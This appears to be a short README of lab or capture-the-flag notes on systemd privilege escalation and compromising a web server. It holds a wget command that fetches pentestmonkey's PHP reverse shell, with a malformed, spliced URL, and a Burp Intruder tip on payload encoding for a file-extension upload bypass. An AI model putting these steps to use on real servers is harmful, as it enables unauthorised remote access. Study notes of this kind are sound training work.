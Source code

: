 README
#######
:Author: David Boyd
:Date: 2020-10-26

Learn to better understand systemd / systemctl services and their unit files.

PrivEsc
*******

systmd / systemctl
==================
:URL: https://www.howtogeek.com/687970/how-to-run-a-linux-program-at-startup-with-systemd/
:URL: https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6

PHP Reverse Shell
-----------------

.. code-block:: bash

	wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.ph://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

[Task4] Compromise the Webserver
********************************

Issue: Couldn't get a fileextension to go through --even the correct answer.
============================================================================
:Platform: Burp Suite
:Status: Resolved (mostly)
:Reason: Percent-Encoding enabled
:Quickfix: Intruder > Payloads > Payload Encoding > [checkbox] disable
:Issue Location: Post attack > Request > Position Param = "a%2aphmtl" (!=want)

Reverse Shell
	focing RHOST to connect to LHOST (you!)

